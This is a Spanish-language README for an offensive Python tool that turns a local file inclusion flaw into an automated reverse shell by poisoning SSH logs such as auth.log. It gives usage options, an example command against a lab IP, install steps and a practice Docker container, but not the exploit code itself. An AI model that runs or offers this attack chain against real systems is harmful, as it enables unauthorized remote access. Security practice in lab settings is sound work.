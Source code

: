 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **Python** que permite obtener una **Reverse Shell** de forma automatizada mediante el envenenamiento de los logs relacionados con **SSH**, como **auth.log** o **btmp**. Para lograrlo, es necesario contar con una vulnerabilidad de Inclusión Local de Archivos (**LFI** - Local File Inclusion) o de Lectura Arbitraria de Archivos (Arbitrary File Read), lo que permite acceder y manipular dichos registros.

Las opciones disponibles son las siguientes:

```ps
usage: autopoisonSSH.py [-h] -u TARGET_URL -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u "http://172.17.0.2/vuln.php?file" -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php?file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
                                             
  -p, --target-port         TARGET_PORT      Target http port                                                              (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                               (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                                   (default = 4444)
```

---
## ¿Por que usar este Proyecto?

En el caso de que queramos explotar un **Log Poisoning** de la manera tradicional nos encontraremos con el inconveniente que vemos en la captura de pantalla por lo que con el uso de este script evitaremos dicho incovenintente gracias a la librería **paramiko** de **python**.

![Pasted image 20240806161520](https://github.com/user-attachments/assets/73c86309-aaa0-442f-afe7-33b87c10b374)

---
## Descarga

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Uso

En primer lugar debemos detecar la ruta donde se acontecede el **LFI**:

![Pasted image 20240806161403](https://github.com/user-attachments/assets/9238bfd1-c0f2-4eef-abbf-6729aa0457ca)

En segundo y último lugar ejecutaremos el script pasándole los parámetros necesarios tal y como vemos a continuación:

```shell
python3 autopoisonSSH.py -u "http://172.17.0.2/index.php?filename" -t-ip 172.17.0.2 -h-ip 172.17.0.1
```

![Screenshoot POC](https://github.com/user-attachments/assets/815ab114-ac38-448b-af13-364e4a239aef)

---
## Puesta en Práctica

Una vez que tengamos el [Dockerfile](Dockerfile) descargado, ejecutaremos el siguiente comando posicionándonos en el mismo directorio donde se encuentra el [Dockerfile](Dockerfile).

```bash
docker build -t logpoisoning_image .
```

Tras correr el anterior comando, finalmente montaremos el contenedor gracias a la siguiente instrucción.

```bash
docker run -dit --name ssh_logpoisoning logpoisoning_image
```

---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
